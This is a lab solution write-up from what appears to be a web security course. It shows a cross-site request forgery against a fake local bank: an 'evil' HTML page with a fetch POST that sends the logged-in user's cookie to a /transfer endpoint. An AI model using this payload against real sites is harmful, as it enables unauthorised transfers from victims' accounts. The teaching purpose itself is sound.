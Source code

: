 This quiz will take a number of steps to complete, but you're hacking a fake bank so it's awesome.

1. You need to sign into the bank's website so that the evil website will have access to your login cookie.
2. Then create a website in the Evil folder that will send a POST request to the bank's `/transer` URL.
3. The posted data needs to set the recipient to umbrella corp and the amount is 666.
4. To send along the cookie data in a Fetch request, the credentials flag needs to be set to Include.
  
If you do everything correctly, the server will give you a token. Now, that's the server not the browser's console, so check the terminal.

[![cs5-27](../assets/images/cs5-27-small.jpg)](../assets/images/cs5-27.jpg)

#### 5.10 Solution
I've logged into the bank, so the log in cookie is set in my browser. Opening up DevTools, I can see the cookie here.

[![cs5-28](../assets/images/cs5-28-small.jpg)](../assets/images/cs5-28.jpg)

Now I need to create a website that will send the forged request. 

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <meta http-equiv="X-UA-Compatible" content="ie=edge">
  <title>Evil Form</title>
</head>
<body>
  <label for="recip">Recipient:</label>
  <input type="text" name="recip" id="recip" value="Umbrella Corp"><br>
  <label for="amt">Amount</label>
  <input type="text" name="amt" id="amt" value="666"><br>
  <button id="send">Send</button>
<script>
  window.onload = function() {
    const recip = document.querySelector('#recip');
    const amt = document.querySelector('#amt');
    const btn = document.querySelector('#send');
    btn.addEventListener('click', handlePost, false);

    function handlePost(e) {
      e.preventDefault();
      const data = `recipient=${recip.value}&amount=${amt.value}`
      console.log(data);

      fetch('http://bank.127.0.0.1.xip.io:8080/transfer', {
        method: 'POST',
        mode: 'no-cors',
        credentials: 'include',
        headers: {
          'Content-Type': 'application/x-www-form-urlencoded'
        },
        body: data
      })
        .then(response => response.text())
        .then(text => console.log(text))
        .catch(err => console.log(err));
    }
  }
</script>
</body>
```
